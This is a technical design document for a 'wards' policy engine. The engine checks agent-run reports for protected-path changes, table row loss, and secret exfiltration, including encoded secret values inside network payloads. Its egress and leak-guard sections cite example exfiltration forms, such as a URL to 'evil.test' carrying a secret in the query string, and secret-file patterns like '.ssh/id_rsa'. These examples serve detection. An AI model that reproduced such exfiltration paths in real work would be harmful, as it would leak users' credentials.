



# Design Document: wards

## Overview

The `wards` spec turns the minimal judgment rules of `core/src/wards.ts` into the full ward system. The design has two halves.

1. **Judgment in `core/`** (new folder `core/src/judge/`, zero runtime dependencies, pure functions): path normalization, a regex-free glob matcher, a host matcher, a content inspector for canary values, a sanitizer, and a message builder. The refined `WardEngine.evaluate` in `core/src/wards.ts` becomes a thin orchestrator over these modules.
2. **Configuration in a new workspace package** `@ghost-run/wards-config` (directory `wards-config/`): the `wards.yaml` parser, validator, and printer, built on the `yaml` library. The default entry is browser-safe (no Node built-in); file loading lives in the Node-only subpath `@ghost-run/wards-config/node`.

`core/` stays free of runtime dependencies, I/O, clock, randomness, and `eval`. `wards-config` depends on `@ghost-run/core` only and `core` never imports it.

**Alignment with ghost-runner (W0).** The ghost-runner design adds these core types before any wards work starts: the `symlink-changed` Change kind, `SqlRowCountChange.dropped`, `ObservedEvent.eventId`, `SecretValues = ReadonlyMap<string, Uint8Array>` (key: Copy-relative secret path, value: file bytes), and `EvaluateInputs { secretValues?, payloads? }` as the optional third parameter of `WardEngine.evaluate`. This design adopts all of them unchanged. Wards defines no second shape. Requirement 9 criterion 1 calls the third parameter `context`; it is the same object as `EvaluateInputs`. Where Requirement 9 says "each `secretValues` entry names the Secret_Path (`secretPath`)", the `secretPath` is the Map key.

What wards adds to `core/src/types.ts` itself (two additive changes, listed as work item W-types in the later tasks document):

| Change | Reason |
|---|---|
| `case_sensitive?: boolean` on the `path` variant of `Ward` | Requirement 4.4 |
| `WardNotice.kind` widened to `'effect-outside' \| 'observed-event' \| 'content-inspection' \| 'path-escape'` | Open Item 6; the UI and Message_Builder can tell the new notices apart |

`WardViolation` stays `{ wardId, wardKind, reason }`. No structured numbers are added; the reason formats of Requirements 5, 6, 8, and 11 are the contract and are pinned by tests.

**Claims and scope.** P4 is claimed for all worlds (pure logic). P5 is claimed only where P1 holds, and P6 only where network attempts are recorded (Playground; Docker box real mode). In Plan B (`static-analysis`) neither P5 nor P6 is claimed; the Message_Builder lowers the claim (see "Message builder"). The tests in this spec prove the judgment half of P5 and P6 on synthetic and fixture-world reports; the Docker half belongs to ghost-runner.

### Research summary

The environment denied web access during design, so version and license figures below come from prior knowledge and MUST be confirmed on the day the dependency is added (Requirement 1 criterion 7, Requirement 13 criterion 10). Nothing else in the design depends on them.

| Candidate | License (to confirm) | Version line (to confirm) | Fit |
|---|---|---|---|
| `yaml` (eemeli) | ISC | 2.x | Zero dependencies. `parseDocument` returns an AST with `range` offsets per node; `LineCounter` converts offsets to 1-based line and column. YAML 1.2 core schema (so `yes`, `no`, `on` stay strings). Errors carry positions. Chosen. |
| `js-yaml` | MIT | 4.x | Syntax errors carry `mark.line` and `mark.column`, but `load` returns plain values with no node positions, so a semantic error (wrong type, bad glob) could not be given a line without a second scanner. Rejected. |
| `yaml-ast-parser` and similar | varies | unmaintained | Rejected: maintenance risk. |

Platform facts used: the WHATWG `URL` host parser performs punycode (UTS 46) conversion and IPv6 canonicalization and exists in Node 20 and browsers, so no IDN library is added. `String.prototype.normalize('NFC')` and `toLowerCase` are in ECMAScript. `TextEncoder` and `Buffer` are not used in `core/src` (its `tsconfig` has `types: []`, and `core/eslint.config.mjs` bans `node:*`); a 20-line UTF-8 encoder and a base64 encoder live in `core/src/judge/bytes.ts`.

---

## Architecture

### Package and module layout



The default entry `src/index.ts` re-exports `types.ts`, `parse.ts`, `schema.ts`, `print.ts`, and `format.ts`, and nothing else. `src/node.ts` re-exports `loadWardsFile` from `src/load.ts`. `load.ts` is the only module that imports a Node built-in (`node:fs/promises`), and only `node.ts` imports `load.ts`.

Dependency direction: `wards-config -> core`, never the reverse. Browser-safe default entry (decision D21): the Ghost Shell playground parses `wards.yaml` in the browser, so no module reachable from `src/index.ts` may import a Node built-in. The `yaml` 2.9.1 `exports["."]` map has the conditions `types`, `node` (`./dist/index.js`), and `default` (`./browser/index.js`), so a bundler targeting the browser picks the browser build; the check on 2026-11-18 found no Node built-in import in it (recorded in `docs/measurements.md`). `apps/*`, `integrations/*`, and the ghost-runner tests may use `wards-config`. `core/eslint.config.mjs` gets one more `no-restricted-imports` pattern group: `**/wards-config/**`, `@ghost-run/wards-config`, `@ghost-run/wards-config/**`.

### Runtime flow (hook path)



The hook, not `core`, owns file I/O, the clock, the graveyard entry id, and the claims value.

### Inside `evaluate`



---

## Components and Interfaces

All signatures below are exported from `core/src/index.ts` unless marked internal.

### Bytes, sanitizer, ordering (`judge/bytes.ts`, `judge/sanitize.ts`)

```ts
export function utf8Encode(s: string): Uint8Array;             // lone surrogates become U+FFFD
export function compareCodePoints(a: string, b: string): number; // UTF-8 byte order, see decision D8
export const HIDDEN_RANGES: ReadonlyArray<readonly [number, number]>;
// 0000-001F, 007F, 200B-200D, 2060, FEFF, 202A-202E, 2066-2069, E0000-E007F
export function hasHiddenChar(s: string): boolean;
export function sanitizeText(s: string, maxCodePoints?: number): string; // default 120
```

`sanitizeText` builds the output token by token. A token is one code point, or the escape `\u{HEX}` (upper-case, minimal digits) for a code point in `HIDDEN_RANGES`. Tokens are appended while the running length stays at or below `max - 3`; if input remains after that, `...` is appended, so the result never exceeds `max` code points and never ends inside an escape. For `max = 120` that is 117 code points plus `...`.

`compareCodePoints` compares by code point, which equals UTF-8 byte order. The default JS `sort` compares UTF-16 code units and disagrees for astral characters against U+E000-U+FFFF, so it is not used for any ordering that Requirements 5.4, 6.3, 8.6, and 11.7 call "byte order".

### Path normalization (`judge/normalize.ts`)

```ts
export interface ResolvedPath { readonly segments: readonly string[]; readonly escapes: boolean }
export function resolvePath(p: string): ResolvedPath;
export function normalizePath(p: string): string;   // structural form, case preserved
export function foldPath(p: string): string;        // comparison form for case-insensitive wards
```

`resolvePath` pipeline, in this order:

1. `p.normalize('NFC')`.
2. Split on `/`.
3. Walk the segments with a stack. Empty segments (this also strips leading `/` and a trailing `/`) and `.` are skipped. `..` pops the top when the stack is non-empty and its top is not `..`; otherwise it pushes `..` and sets `escapes = true`.
4. `normalizePath` joins the stack with `/`. A path that resolves to the Copy root yields `''`.

`foldPath(p)` applies `normalizePath`, then maps each code point `c` to `c.toLowerCase()` only when that result is exactly one code point (otherwise `c` stays), then applies NFC again. The mapping is one code point to one code point, so folding never changes how many characters a path has; this matters because `?` matches one character (decision D1).

`normalizePath(normalizePath(p)) === normalizePath(p)` holds because step 3 removes all `.` and empty segments and leaves `..` only as a leading run, and NFC is idempotent.

### Glob (`judge/glob.ts`, `judge/pathset.ts`)

```ts
export type GlobErrorCode =
  | 'empty-pattern' | 'absolute-pattern' | 'parent-segment' | 'unsupported-glob-syntax'
  | 'unterminated-class' | 'empty-class' | 'descending-range' | 'partial-doublestar'
  | 'invalid-character' | 'pattern-too-long';
export interface GlobError { readonly code: GlobErrorCode; readonly message: string }
export function validateGlob(pattern: string): GlobError | null;
export function normalizePattern(pattern: string): string;   // key used for sets and duplicate detection

export interface PathSet {
  /** Both spellings (as written, and `\` -> `/`) are tried; an escaping spelling never matches. */
  test(path: string): { readonly matched: boolean; readonly escapes: boolean };
}
export function compilePathSet(patterns: readonly string[], opts: { caseSensitive: boolean }): PathSet;
```

**Validation order** (first failure wins, so the result is deterministic): `pattern-too-long` (over 512 UTF-16 units), `empty-pattern`, `invalid-character` (`hasHiddenChar`), `absolute-pattern` (leading `/`), `unsupported-glob-syntax` (a leading `!`, any `\`, or a `{` or `}` outside a class), `parent-segment` (a `..` segment), then per segment: `partial-doublestar` (a segment containing `**` that is not exactly `**`), `unterminated-class`, `empty-class` (`[]`, `[!]`), `descending-range`.

**Tokens.** A segment compiles to tokens: literal code point, `?`, `*`, or a class `{ negated, items: (cp | [lo, hi])[] }`. A segment that is exactly `**` is a `DoubleStar`. A class item is a single code point, or a range `a-z` when `-` has a following code point that is not `]`; a `-` first or last is literal.

**Engine compilation is lenient.** `compilePathSet` does not reject; constructs that `validateGlob` would reject degrade to literal characters (`[` without `]` is a literal `[`, and so on). The engine never throws on a hand-built `WardSet`. `wards-config` is what rejects such patterns.

**Matching** (`globMatches`, internal). A pattern matches a path when the pattern with an implicit trailing `**` matches the path's segments. This one rule gives all of Requirement 3: `data` protects `data`, `data/x`, `data/a/b`; `data/**` matches `data` itself (zero segments); `db/*.sqlite` matches `db/app.sqlite/x`; the root path (zero segments) matches only a pattern whose segments are all `**` or that is empty.

Two nested greedy two-pointer loops, no recursion, no regular expression:

```
matchSegments(P, S):                      // P: pattern segments + implicit trailing DoubleStar
  pi = 0; si = 0; starP = -1; starS = 0
  while si < len(S):
    if pi < len(P) and P[pi] is DoubleStar: starP = pi; starS = si; pi++
    else if pi < len(P) and matchSegment(P[pi], S[si]): pi++; si++
    else if starP >= 0: pi = starP + 1; starS++; si = starS
    else return false
  while pi < len(P) and P[pi] is DoubleStar: pi++
  return pi == len(P)
```

`matchSegment` is the same loop over code points with `*` as the star and `?`, literal, and class as the single-unit matchers. Both loops are the classic wildcard algorithm: all non-star items consume exactly one unit, so backtracking to the most recent star is complete.

**Complexity bound.** For a given pair (pattern segment `i`, path segment `j`) the outer loop evaluates it at most once, because the active star and the star offset that lead to a pair are unique. Evaluating a pair costs at most `|p_i| * |s_j|` by the same argument inside the segment. The total is at most the sum over all pairs of `|p_i| * |s_j|`, which equals `m * n` (pattern length times path length). For `a*a*a*a*a*a*a*a*b` against 4,000 `a` that is 17 * 4,000 = 68,000 steps. The internal function takes an optional `{ steps: number }` counter so the test asserts `steps <= c * m * n` deterministically instead of a flaky wall-clock limit.

**Case handling.** For a case-insensitive set, literals are compared as `fold(cp)`. A class matches a code point `c` when any of `c`, `lower1(c)`, `upper1(c)` is a member (where `lower1` and `upper1` return the mapped code point only when single, else `c`); a negated class matches when none is. The comparison over-matches rather than under-matches. NFC is applied to pattern and path before parsing in both modes, so `?` counts composed characters.

**Literal fast path.** A pattern with none of `* ? [` is stored as its normalized (and, when case-insensitive, folded) segment string in a `Set`. A path is tested by walking its own prefixes (`a`, `a/b`, `a/b/c`) against the set: O(depth) per path, independent of the number of literal patterns. This keeps 10,000 changes against 1,000 patterns inside the 3.0 s budget of Requirement 19.11. Glob patterns go through the matcher.

**Backslash.** `PathSet.test` evaluates two spellings: the path as written and with each `\` replaced by `/`. It reports `matched` if either matches and `escapes` if either resolves with a leading `..`.

### Host matching (`judge/host.ts`)

```ts
export type HostRef =
  | { readonly kind: 'name' | 'ipv4' | 'ipv6'; readonly host: string; readonly port?: number };
export interface HostEntryError { readonly code: HostEntryErrorCode; readonly message: string }
export function parseDestination(d: string | undefined): HostRef | null;
export function validateHostEntry(entry: string): HostEntryError | null;
export function hostEntryKey(entry: string): string;           // 'n:host[:port]', 'w:suffix[:port]', 'i4:..', 'i6:..', 'x:<raw>' for invalid
export function compileAllowHosts(entries: readonly string[]): { allows(ref: HostRef | null): boolean };
export function redactDestination(d: string | undefined): string;
```

`parseDestination` steps:

1. Strip `^[a-z][a-z0-9+.-]*://` (any scheme, case-insensitive). Cut at the first `/`, `?`, or `#`. Cut userinfo at the last `@`.
2. If the text starts with `[`, find `]`; the inside is an IPv6 literal, and an optional `:digits` may follow. Anything else after `]` makes the destination invalid.
3. Otherwise split a port: exactly one `:` followed by `^[0-9]{1,5}$` with value 1 to 65535. A second `:` (a bare IPv6 without brackets) makes it invalid.
4. Remove exactly one trailing `.` from the host text.
5. Classify the host text. If its last label is all digits or `0x` plus hex digits (the WHATWG "ends in a number" test), it is an `ipv4` only when it is a canonical dotted quad (four decimal labels, each 0 to 255, no leading zeros). Otherwise it is a numeric-looking name and the destination is reported as not allowed (this covers `3232235786`, `0x7f.1`, `010.0.0.1`; Requirement 7.8).
6. For IPv6, `new URL('http://[' + inner + ']').hostname` gives the canonical lowercase compressed form. For a name, `new URL('http://' + host).hostname` gives the lowercase punycode form; the result is then re-checked: labels of 1 to 63 characters of `a-z 0-9 -`, no label starting or ending with `-`, total at most 253. A throw or a failed check yields `null`.

`URL` is read through `globalThis` with a narrow structural type, as `core/tests/pbt-config.ts` does for `process`. If it is missing, `parseDestination` returns `null` for every name and IPv6 destination. The effect is fail-closed: a destination that cannot be parsed is never allowed.

`compileAllowHosts` parses each entry once (`parseHostEntry`, same steps plus the wildcard form `*.<name>` with at least two labels after `*`). `allows(ref)`:

- returns false for `null`;
- for a name entry: equal `kind` and `host`;
- for a wildcard entry: `ref` is a name with exactly one extra leftmost label over the suffix;
- for an IP entry: equal kind and canonical host;
- port rule: an entry without a port allows any port; an entry with a port allows only the equal port, so a destination without a port matches only portless entries (Requirement 7.4).

Entries that fail `validateHostEntry` compile to a matcher that allows nothing, so an unvalidated bad entry can only cause more violations. `hostEntryKey` gives `x:<lower-cased raw>` for those entries.

`redactDestination(d)`: if `parseDestination` succeeds, return `host[:port]` (IPv6 in brackets); otherwise return `sanitizeText(d)`. This drops scheme, userinfo, path, query, and fragment from every destination in a reason, so `https://evil.test/?k=<secret>` cannot put a query-string secret into a verdict (decision D12).

### Canary extraction (`judge/canary.ts`)

```ts
export interface CanaryExtraction {
  readonly candidates: readonly Uint8Array[];
  readonly discarded: { readonly tooShort: number; readonly tooLong: number; readonly tooMany: number };
}
export function extractCanariesDetailed(secretPath: string, content: Uint8Array): CanaryExtraction;
export function extractCanaries(secretPath: string, content: Uint8Array): readonly Uint8Array[]; // .candidates
```

Candidates, in this order: (a) the whole content with trailing `0x0D` and `0x0A` bytes removed; (b) when the folded base name of `secretPath` is `.env` or starts with `.env.`, for each line (split on `0x0A`, one trailing `0x0D` removed), skipping blank lines and lines whose first non-blank byte is `#`: strip an optional `export` plus blanks, require `KEY` matching `[A-Za-z_][A-Za-z0-9_]*` then `=`, take the rest, trim ASCII blanks, remove one pair of matching `'` or `"` when the value has length 2 or more. All work is on bytes; no text decoding, so the candidate bytes are exactly the file's bytes.

Filtering: drop length under 8 or over 16,384 (counted into `tooShort`, `tooLong`), de-duplicate by byte equality (first occurrence kept), keep at most 256 (the rest counted into `tooMany`). The cap is per file, so adding a file to a ward can only add candidates (needed for monotonicity).

### Content inspector (`judge/inspect.ts`)

```ts
export type EncodingKind = 'raw' | 'base64' | 'base64url' | 'hex' | 'percent';
export const ENCODING_ORDER: readonly EncodingKind[] = ['raw', 'base64', 'base64url', 'hex', 'percent'];
export const PAYLOAD_CAP = 65_536;
export interface Inspector {
  /** eventId -> kinds detected for any of the canaries, in ENCODING_ORDER. Empty map entries are omitted. */
  hits(canaries: readonly Uint8Array[]): Map<string, readonly EncodingKind[]>;
}
export function createInspector(payloads: ReadonlyMap<string, Uint8Array>): Inspector;
export function detectKinds(payload: Uint8Array, canaries: readonly Uint8Array[]): readonly EncodingKind[];
```

**Views** (built once per payload, after truncating to the first 65,536 bytes):

| View | Definition |
|---|---|
| V0 | raw bytes |
| V1 | V0 with `0x0D 0x0A 0x20 0x09` removed |
| V2 | percent-decoded V0: `%XX` (either hex case) to a byte, `+` to `0x20`, an invalid `%` sequence kept as written |
| V3 | V2 with the same four bytes removed |
| V1l, V3l | ASCII lower-case copies of V1 and V3 (for hex) |

When a view equals its source (no byte removed or decoded), it is shared instead of copied.

**Needles** (generated per canary of length `n`, discarded after all payloads are searched):

| Kind | Needle | Searched in |
|---|---|---|
| `raw` | the canary bytes | V0 |
| `raw` (whitespace-free form) | the canary with `CR LF SP TAB` removed, only when the canary contains any of them and the result is at least 8 bytes | V1, V3 (decision D6) |
| `percent` | the canary bytes | V2, counted only when the `raw` needle is absent from V0 |
| `base64` / `base64url` | for each offset `o` in 0, 1, 2: the base64 characters of `(o zero bytes) ++ canary` whose 6-bit groups lie fully inside the canary, i.e. characters `ceil(8o/6)` up to but excluding `floor(8(o+n)/6)`. Standard and URL-safe alphabets. | V1, V3 |
| `hex` | lower-case hex of the canary (2n characters) | V1l, V3l |

Characters whose group is only partly inside the canary are excluded, so padding (`=`), a different prefix, and a different suffix cannot affect the match. For `n = 8` every base64 needle is 10 characters, so the match carries 60 bits and cannot occur by chance in a 64 KiB payload with probability above about 2^-40 per position.

**Search.** Every needle is at least 8 bytes. Per view a Bloom bit set (2^18 bits, one hash) is filled with a rolling 32-bit polynomial hash of every 8-byte window (`Math.imul`, window 8). For a needle, up to 8 windows (first, last, and evenly spaced between) are looked up; if any bit is clear the needle is absent and the search ends in O(8). Otherwise the needle is verified with KMP (failure table O(needle), scan O(view)). Bloom false positives cost only a KMP run and never change the result. A needle longer than the view is skipped.

**Cost.** Views are O(h) per payload. A Bloom-passing needle costs O(h + n); a failing one O(8). For the sizing in Requirement 10.10 (16 payloads of 64 KiB, 256 canaries of 4 KiB) needle generation is about 12 MB of encoding in total and the Bloom reject rate on non-matching input is above 99.99% per needle, so the expected time is far below 2.0 s. The adversarial worst case (a payload that contains every sampled window of every needle but no needle) is O(needles x payloads x (h + n)); it is bounded by the caps on candidates per file (256 x 16 KiB) and by the file and size limits the runner puts on `secretValues` (Open Item: runner cap, see Error Handling). The hook's 60 s limit is the last bound.

**Kinds for one canary set.** For each payload the inspector unions the kinds found over all canaries and returns them in `ENCODING_ORDER`, each at most once. `percent` is reported for a canary only when that canary's `raw` needle is not in V0; this is evaluated per canary, then unioned.

### Message builder (`judge/message.ts`)

See the section "Message builder" in Data Models for exact templates. Signature:

```ts
export type ClaimLoweredReason = 'static-analysis' | 'unsupported-step';
export interface Claims { readonly p5: boolean; readonly p6: boolean; readonly reason?: ClaimLoweredReason }
export interface RenderContext {
  readonly wardCount: number;
  readonly claims?: Claims;                                   // optional, see D14
  readonly seance?: { readonly id: string; readonly base?: string };
}
export function renderMessage(verdict: WardVerdict, ctx: RenderContext): string;
export const CLAIM_LOWERED_LINE: string;
export const CLAIM_LOWERED_UNSUPPORTED_STEP_LINE: string;
export const SUGGESTIONS: Readonly<Record<Ward['kind'], string>>;
```

### Engine (`core/src/wards.ts`)

```ts
export const WardEngine = {
  evaluate(
    report: GhostReport<unknown>,
    wardSet: WardSet,
    inputs?: EvaluateInputs,          // { secretValues?, payloads? } from W0, unchanged
  ): WardVerdict;
};
export function isMoreRestrictive(w1: WardSet, w2: WardSet): boolean;
```

Decision D9: the third positional parameter, not a context merged into `report`. The two-argument call stays valid, so every existing test and caller is unchanged, and `GhostReport` stays a pure record of what the world observed. `claims` is not an `evaluate` input because the engine must not know about isolation modes; it only matters when rendering.

**`evaluate` steps** (all inside one function body, no shared mutable state between calls):

1. **Prepare.** Compile one `PathSet` per `path` ward (`caseSensitive = ward.case_sensitive === true`), one `PathSet` per `egress` ward for `secrets` (always case-insensitive), allow-host matchers, and the table-name sets (ASCII lower-case). Group `secretValues` entries by `normalizePath(key)`; skip malformed entries (key not a string, value not `Uint8Array`) with a `content-inspection` notice naming the sanitized key when it is a string. Sort payload keys by `compareCodePoints`.
2. **Per ward, in WardSet order**, produce violations (below). The violations of one ward stay together and the overall list is in ward order.
3. **Notices** (ward-independent, plus the ward-dependent ones named below).
4. **Leak guard** (below), then compute the verdict: `block` if any violation, else `warn` if any notice, else `pass`.

**Path ward.** For each change (with its step index) whose `kind` is `file-deleted` (operation `delete`) or `file-overwritten` / `symlink-changed` (operation `overwrite`), and whose `path` is a string: skip when the ward's `deny` lacks the operation; `test(path)`; when `matched`, record `(foldKey, op)` and the display path, which is the path as written in the Change (sanitized when rendered; the first Change in step order for a key supplies it). `file-created` and unknown kinds are ignored. Violations are de-duplicated by (ward, `foldKey` when case-insensitive else `normalizePath(path)`, op), sorted by (`normalizePath(path)` by `compareCodePoints`, op with `delete` before `overwrite`), and rendered as `would <op> protected path <sanitized display path>`. The normalized path is only the de-duplication and sort key; the reason shows the path as written. When the ward set contains at least one `path` ward and any change path `escapes`, one `path-escape` notice per distinct sanitized path (at most 20, then no more) is added: `change path escapes the copy root: <path>`.

**SQL ward.** Only `sql-row-count` changes with a string `table` and finite number `rowsBefore` and `rowsAfter` count. Lost rows per change: `dropped === true ? max(0, rowsBefore) : max(0, rowsBefore - rowsAfter)`. This matches the ghost-runner W0 formula (a dropped table counts as all rows lost, even if a runner left a non-zero `rowsAfter`). Sum per ASCII-lower-cased table name across all steps for names in `tables`. If the total exceeds `max_rows_lost`, one violation:
`would delete <n1> rows from <t1>[, <n2> rows from <t2>...]` with tables in ascending `compareCodePoints` order of the lower-case name, `<t>` printed in the spelling the ward declares (the first matching entry in `tables`), numbers with `,` thousands separators, then ` (max allowed <m>)` only when `max_rows_lost > 0`. Interpretation note: Requirement 6.3 says "the same phrases joined by `, `"; the design reads the repeated phrase as `<n> rows from <table>` after one `would delete`, matching the old engine's shape.

**Egress ward.**

- `firstRead` = smallest `stepIndex` of `secret-read` events whose `path` matches the ward's `secrets` `PathSet` (descendants included, so a pattern `.ssh` covers `.ssh/id_rsa`).
- Behavior violations: with `firstRead` defined, every `network-attempt` with `stepIndex >= firstRead` whose destination `allows` returns false (a missing destination parses to `null`). Sorted by (`stepIndex`, redacted destination by `compareCodePoints`), at most 20, then one violation `<k> more network attempts not listed`. Reason: `network attempt to <redacted destination> at step <n> after secret read at step <firstRead>; host not in allow_hosts`.
- Content violations (next section), appended after the behavior violations of the same ward.

**Content inspection (egress ward).** Let `files(w)` be the grouped `secretValues` entries whose normalized path matches `w.secrets`. If `files(w)` is empty and (a secret-read matched `w.secrets`, or any payload exists), add one `content-inspection` notice `content inspection did not run for ward <id>: no secret values were provided` (step: `firstRead`, else `-1`), but only when the caller passed `inputs` (the third argument) and `secretValues` is absent or empty (no entry at all). A call without `inputs`, or a call whose `secretValues` entries belong only to other wards, gets no such notice; this narrowing keeps the existing `core/tests/wards.test.ts` cases unchanged (Requirement 9 criterion 3). Otherwise, for each file (sorted by normalized path) get canaries with `extractCanariesDetailed`, call `inspector.hits(canaries)` once per file, and for each payload with a non-empty result add one violation `payload of event <eventId> contains a value from secret file <path> (encoding: <kinds>)` (eventId and path sanitized, kinds joined by `,`). Content violations are sorted by (`eventId`, path) with `compareCodePoints`, at most 20, then one violation `<k> more payload hits not listed`. A content hit does not look at the event's destination, and it does not need a `secret-read` event (Requirement 11 criteria 1 and 3). When a file has discarded candidates and at least one payload exists, one `content-inspection` notice per (file, reason) is added: `secret file <path>: values skipped for content inspection (<too short|too long|too many>)`. Discard notices are only emitted when a payload exists so that a normal run with no network traffic still passes (decision D5).

**Physics ward.** `checkPhysics` keeps its success-rate, contact-force, and forbidden-contact rules, runs `variantId` and contact names through `sanitizeText`, and adds two hard failures. The core `VariantResult` has the optional fields `jointLimitExceeded` and `selfCollisionOccurred`. For every variant with `jointLimitExceeded === true` the ward adds `joint limit exceeded in variant <id>`, and for every variant with `selfCollisionOccurred === true` it adds `self-collision occurred in variant <id>`, whatever the success rate. No ward parameter is read by these two rules, so loosening or tightening a parameter never removes them (P4 argument in `isMoreRestrictive` below).

**Notices and order.** Existing notices keep their text: `step <i> has side effect outside the copy: <kind> to <destination>` and `observed <kind> (<target>) at step <n>`; only `destination` is passed through `redactDestination` and `path` through `sanitizeText`. Order (Requirement 17.3): `effect-outside` by `stepIndex` (stable within a step), then `observed-event` by (`stepIndex`, `kind`, target by `compareCodePoints`), then `content-inspection`, then `path-escape`, each by (`stepIndex`, `reason`). A payload whose key has no matching event is inspected as normal and adds one ward-independent `content-inspection` notice `payload <eventId> has no matching observed event`, so an orphan payload always makes the run at least `warn`.

**Leak guard.** After steps 2 and 3, if any `secretValues` entry yielded candidates, the engine builds one inspector over the UTF-8 bytes of every string field in the violations and notices (`reason`, `destination`, `path`, `wardId`) and runs all canaries of all entries (not only ward-matched ones) over it. A string with any hit is replaced by `[redacted: contains a secret value]`. This closes the channel the content check cannot: a destination such as `https://evil.test/?k=<canary>` or a DNS-style host label that carries a canary. It never changes the verdict class, because only text is replaced. It uses the same inspector, so all five encodings and all base64 offsets are covered.

### `isMoreRestrictive` (extended)

The comparison keeps the existing structure (`Cmp { tighter, looser }` per ward, wards paired by `id`, duplicate ids refuse). Changes:

| Field | Key function | Direction |
|---|---|---|
